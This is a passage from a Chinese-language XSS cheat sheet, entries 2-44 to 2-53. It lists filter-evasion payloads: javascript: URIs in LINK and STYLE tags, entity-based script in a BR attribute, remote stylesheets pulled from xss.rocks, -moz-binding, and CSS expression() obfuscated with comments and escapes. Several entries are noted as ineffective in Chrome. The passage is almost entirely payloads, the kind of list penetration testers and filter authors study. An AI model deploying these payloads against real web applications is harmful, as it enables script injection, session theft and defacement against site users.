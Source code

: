 ### 2-44 BGSOUND (chrome 测试无效)

`<bgsound>是IE浏览器中设置网页背景音乐的元素。该特性是非标准的，请尽量不要在生产环境中使用它！`

### 2-45 & JavaScript includes (chrome 测试无效)

`<BR SIZE="&{alert('XSS')}">`

### 2-46 stylesheet 样式表引入 (chrome 测试无效)

`<LINK REL="stylesheet" HREF="javascript:alert('XSS');">`

### 2-47 远程样式表 （chrome 测试无效）

`<LINK REL="stylesheet" HREF="http://xss.rocks/xss.css">`

### 2-48 远程样式表 2 (chrome 测试无效)

`<STYLE>@import'http://xss.rocks/xss.css';</STYLE>`

### 2-49 远程样式表 3 （chrome 测试无效）

`<META HTTP-EQUIV="Link" Content="<http://xss.rocks/xss.css>; REL=stylesheet">`

### 2-50 远程样式表 4 (chrome 测试无效)

`<STYLE>BODY{-moz-binding:url("http://xss.rocks/xssmoz.xml#xss")}</STYLE>`

### 2-51 含有分隔 JavaScript 的 STYLE 标签

这个 XSS 会在 IE 中造成无限循环:

``` {.html}
<style>
    @im \port'\ja\vasc\ript:alert("XSS")';
</style>
```

### 2-52 STYLE 属性中使用注释分隔表达式

由 Roman Ivanov 创建

``` {.html}
<img style="xss:expr/*XSS*/ession(alert('XSS'))" />
```

### 2-53 含有表达式的 IMG 标签的 STYLE 属性

这是一个将上面 XSS 攻击向量混合的方法，但确实展示了 STYLE
标签可以用相当复杂的方式分隔，和上面一样，也会让 IE 进入死循环:

``` {.html}
exp/*<a
    style='no\xss:noxss("*//*");
xss:ex/*XSS*//*/*/pression(alert("XSS"))'
></a>
```
